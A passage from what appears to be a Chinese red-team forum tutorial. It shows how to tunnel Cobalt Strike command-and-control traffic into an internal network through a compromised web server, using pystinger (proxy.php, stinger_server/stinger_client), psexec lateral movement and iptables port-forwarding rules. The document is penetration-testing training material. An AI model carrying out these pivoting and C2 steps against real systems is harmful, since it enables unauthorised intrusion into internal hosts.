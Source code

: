 业务服务器：192.168.111.236

**过程：**

1.上传proxy.php到WEB服务器网站目录，正常访问返回UTF-8

web服务器外网ip为192.168.1.70

![image-20220517181300013.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-526ac95e9ac5479caca8ecd91938b2377b46a0f2.png)

上传stinger\_server.exe，执行

```php
start stinger_server.exe 0.0.0.0
```

攻击机(192.168.1.89)上执行

```php
./stinger_client -w http://192.168.1.70/proxy.php -l 127.0.0.1 -p 60000
```

此时已经将web服务器的60020端口转发到vps的60020端口上了

CS设置监听,`HTTP Hosts`为中转机器的内网ip，端口为60020：

![image-20220517181223593.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-39fef2eab97f8de9a58087c3019bdc96c6e78831.png)

使用psexec横向移动，选择listener为pystinger，或者直接生成payload在业务主机执行，业务内网主机192.168.111.236即可成功上线：

![image-20220517182051748.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-00a1eb6398d789d33de19c773732b7c5b93b5cdc.png)

![image-20220517181145075.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a15c80ddf9b4b504f229f09054527ab06002bbfa.png)

补充：中转机器为Linux
-------------

### HTTP代理(中转机器不需要上线即可)

使用方法与上面方法三一样。只不过要使用iptables转发：

```php
echo 1 >/proc/sys/net/ipv4/ip_forward
```

```php
iptables -A PREROUTING -p tcp -d 192.168.111.131 --dport 822 -j DNAT --to-destination 192.168.1.88:8080

iptables -A POSTROUTING -p tcp -d 192.168.1.88 --dport 8080 -j SNAT --to-source 192.168.111.131

```

**测试：**

中转机器(192.168.111.142)

![image-20220423214555465.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1c70fe51e413d29ff29bd6ae1e071d21089a8975.png)
